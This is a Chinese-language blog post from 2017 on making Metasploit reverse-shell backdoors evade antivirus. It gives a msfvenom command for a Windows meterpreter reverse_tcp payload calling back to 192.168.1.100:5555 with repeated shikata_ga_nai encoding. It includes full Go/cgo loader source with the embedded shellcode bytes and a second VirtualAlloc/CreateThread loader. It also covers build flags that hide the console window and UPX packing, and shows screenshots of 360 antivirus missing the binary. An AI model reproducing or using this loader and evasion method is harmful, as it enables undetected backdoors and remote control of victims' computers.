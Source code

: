 title: 关于msf反弹后门的免杀Tips
date: 2017-04-20 13:09:24
update: ""
author: me
tags:
- Hacker
categories:
- Hacker
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---



msf是一个很强大的工具，我经常会在渗透用它来反弹shell，不过它生成的反弹后门会被不少杀软kill，这篇文章只是讲讲我在msf中一个简单的免杀小技巧
<!--more-->
## 思路
我以前接触过一款python的远控，其实说是远控，基本也就是nc的功能加了一个服务端的web页面控制并加了一些其他的功能可以用来管理诸多客户机
这款远控我下载下来用过，并用pyinstaller打包成了exe（缺点是体积太过庞大），惊奇的是，360不杀它，然后自己想着其他语言是不是也会这样，于是我用golang写了一个简易版nc反弹，编译之后，也是不查杀的。python和golang有一个共同点，就是可以用来内联C编程，所以C语言的shellcode按理说应该会达到同样的效果

## 得到shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=192.168.1.100 -e x86/shikata_ga_nai -i 11 -f py > 1.py
```
建议是生成32位的，如果想生成64位也可以，`-e x86/shikata_ga_nai -i 11`是指用`x86/shikata_ga_nai`编码迭代11次，然后生成py文件
py文件打开是shellcode，我们接下来对它进行一点小改造，对于python去执行shellcode的方法，相信小伙伴都已经不陌生，在《python灰帽子》中有讲解，我今天要使用的是golang，其实个人认为golang执行shellcode的代码是更简洁的

## Golang环境搭建
安装Golang32位（建议32位，与前面对应，在测试过程中，如果32位shellcode配合64位golang加32位gcc，就算把golang的GOARCH改为386也依旧会失败，建议一一对应），安装gcc32位（可以使用[TDM-GCC](http://tdm-gcc.tdragon.net/download)）

## 代码编写
```Golang
package main

/*
void call(char *code) {
    int (*ret)() = (int(*)())code;
    ret();
}
*/
import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    buf += "\x46\x84\xfd\x72\xee\x0e\xb5\x96\x37\x04\x6d\x63\x9f"
    buf += "\xcc\xa4\x3a\x8e\x8c\xf7\x39\x81\xca\xe4\x42\xff\xce"
    buf += "\xa3\xa2\xdb\x06\xc0\x3f\xaf\x41\x73\xba\xf7\x20\x13"
    buf += "\x98\x8c\xff\xfa\x0a\xda\x6e\xf2\x6d\xc3\x81\x07\xc0"
    buf += "\x1b\x37\xeb\xa2\xa9\x32\x71\xaf\xe9\x20\xd1\xaa\x9e"
    buf += "\xbd\x82\xf3\x81\x1f\xab\xbf\xc4\xd9\x6c\x75\x37\x3a"
    buf += "\x53\x78\x90\x79\xaf\x93\x1b\xb3\x15\x09\xe5\x45\x5c"
    buf += "\x26\x0f\x0d\x16\x52\xf1\x8a\x7e\x8b\xc4\x50\x8e\x0a"
    buf += "\x38\x2f\x2b\x40\x73\x0b\xf0\x51\x5f\xc6\xbf\x04\x47"
    buf += "\x80\x36\xe5\x88\x88\xb3\xfc\xa0\x52\xfe\x92\x81\x8d"
    buf += "\x89\xf2\x6a\xcc\x7f\x9a\xe9\x1a\x30\x73\xa3\x63\x42"
    buf += "\x10\xe9\xcf\x62\xe4\x06\x52\xe1\x8d\x88\xfe\x52\xc4"
    buf += "\xc3\xed\x7a\x0e\x66\x5f\x8c\x2c\xef\xfa\xbd\x8c\x79"
    buf += "\x6c\x01\xe3\x5c\xde\xc4\x8a\x4c\x7d\x34\x32\xb5\x23"
    buf += "\x56\x6c\x52\x3f\x15\x26\x6a\xf8\x6b\x81\x2c\x23\x8d"
    buf += "\x41\x6e\x24\x30\xc6\xcb\xba\x26\xd4\x3b\x37\xd3\xc6"
    buf += "\xa8\x5a\x16\x8f\x1e\x27\xca\xcb\xda\x7f\x74\x62\xb2"
    buf += "\x62\xa6\xb1\xfc\x64\x53\x3a\xa7\xa4\x21\x3d\x79\x08"
    buf += "\x06\x74\x2a\xa2\xe7\x0d\x68\x16\xa3\x96\xe5\xad\x32"
    buf += "\x10\xa3\x0f\x49\xc3\x69\xa7\x5b\x61\x1a\xf8\x1d\x9e"
    buf += "\x9b\x3a\x00\xfc\x18\xc3\x42\x1a\xd6\x44\x5d\xfe\xc5"
    buf += "\xb6\x68\xd2\xad\x24\xda\x74\xa7\xf3\x66\x9a\x42\x7a"
    buf += "\x50\xf0\x0b\x47\xbc\xad\x6c\x1e\xca\xbe\x90\xca\xc3"
    buf += "\x8e\x5b\xde\x66\xe2\xb3\x20\x6f\x38\x17\xc1\xac\xfb"
    buf += "\xd3\x2f\x91\xa7\xff\x65\xd7\xd0\x25\x4c\xd4\xb3\x35"
    buf += "\x38\xa1\x82\xb8\x23\x42\xe9\xa5\x95\x8e\xc4\x35\xca"
    buf += "\x92\xfe\xde\x62\x70\xd6\x7a\x7f\xfd\xfb\xf0\x24\xbd"
    buf += "\x5d\x6d\x3d\x13\xbc\x1d\x25\x54\x9d\x0e\x68\xc8\x9a"
    buf += "\x10\x87\xf0\xc9\xac\x37\x57\x84\x23\x5f\x8a\xc0\xab"
    buf += "\x52\x6e\xae\x79\xa2\xdb\xff\xd8\x41\x28\x8b\xd3\x9d"
    buf += "\x68\x3c\x55\xf2\xfe\x0c\x8a\x38\xdf\xb3\x80\x9b\x70"
    buf += "\x2b\x4e\xe1\xfa\x0b\xfe\xf5\xc3\x1a\x0d\x83\xb0\x69"
    buf += "\xd0\x68\xfb\xe0\xae\xbd\x56\x52\x17\x9a\xf8\x8f\xc0"
    buf += "\x14\x8c\xb0\xf7\x0e\x87\xfa\x54\xf4\x04\x4a\x5a\xc8"
    buf += "\x89\x57\x0e\xbf\x7a\x76\x9b\xfe\xb8\x5f\x31\x42\xec"
    buf += "\xaf\x18\x9e\x3f\xf0\x09\x79\x86\xb3\x08\x29\x50\xfd"
    buf += "\xc3\x46\x7d\x24\x51\x5b\xd0\x81\x19\x6f\xc2\x2c\x17"
    buf += "\xab\xa3\xb7\xd9\x6f\x82\xd9\x37\x5f\x38\x01\xd8\xfd"
    buf += "\xfd\x11\x22\x61\xd0\x92\x45\x37\x4f\x6c\x4e\x91\x3b"
    buf += "\x42\x07\xc5\x77\xdc\x52\xd6\xc7\x9d\x7b\x62\xba\x1c"
    buf += "\x62\x3c\xde\xad\x96\x03\x55\xde\x9d\x52\x5c\x5d\x0c"
    buf += "\x73\x0e\xc3\x4c\xae\x7d\x1c\x7c\x64\xaf\xbb\xce\xa6"
    buf += "\x02\x0e\xb1\x51\xc4\x2d\x1b\x6b\xb7\x7c\xd9\x4b\xc3"
    buf += "\x8c\x43\xd6\x1b\x2a\x4f\x5e\x0a\x9a\xd5\x4d\x45\x64"
    buf += "\x6c\x0c\xc8\xf5\x59\xd7\x45\x36\x85\x99\x8d\x34\x65"
    buf += "\x21\xd3\x3b\x35\xce\x22\x29\x0c\x4e\xca\x48\x3f\x55"
    buf += "\x5d\x1b\xda\x35\xc1\x2d"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
以上就是全部代码
其实Golang还有个执行shellcode的方法是不用内联C语言的，但是我这边测试能接到反弹shell，但是执行命令会直接断开，代码我也贴出来
```Golang
package main

import (
    "syscall"
    "unsafe"
)

func ThreadExecute(Shellcode []byte) {
    var K32 = syscall.MustLoadDLL("kernel32.dll")
    var CreateThread = K32.MustFindProc("CreateThread")
    var VirtualAlloc = K32.MustFindProc("VirtualAlloc")
    var WaitForSingleObject = K32.MustFindProc("WaitForSingleObject")

    Addr, _, _ := VirtualAlloc.Call(0, uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    AddrPtr := (*[990000]byte)(unsafe.Pointer(Addr))

    for i := 0; i < len(Shellcode); i++ {
        AddrPtr[i] = Shellcode[i]
    }

    ThreadAddr, _, _ := CreateThread.Call(0, 0, Addr, 0, 0, 0)
    WaitForSingleObject.Call(ThreadAddr, 0xFFFFFFFF)
}
```
关于断开的原因，希望找出原因的能告知我一下，其实我们会发现，内联C是比较简单的

## 杀毒测试
在代码所在目录cmd执行`go build`得到二进制文件（或者可以用`go build -ldflags="-s -w"`减小体积，`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口）
![](https://ooo.0o0.ooo/2017/04/20/58f840f0e9a00.png)
![](https://ooo.0o0.ooo/2017/04/20/58f840f8a704c.png)

可以看到360的静态查杀和动态查杀都没有发现
那么是否正常工作呢
![](https://ooo.0o0.ooo/2017/04/20/58f840f6d4862.png)

可以看到完全是没问题的，体积比python编译出来的小的多，编译出来是500多kb，然后经过upx压缩了一下（测试upx压缩后功能依旧正常），降低到了200多kb
![](https://ooo.0o0.ooo/2017/04/20/58f840dbdc23f.png)

## 视频
{% bilibili 9975200 %}
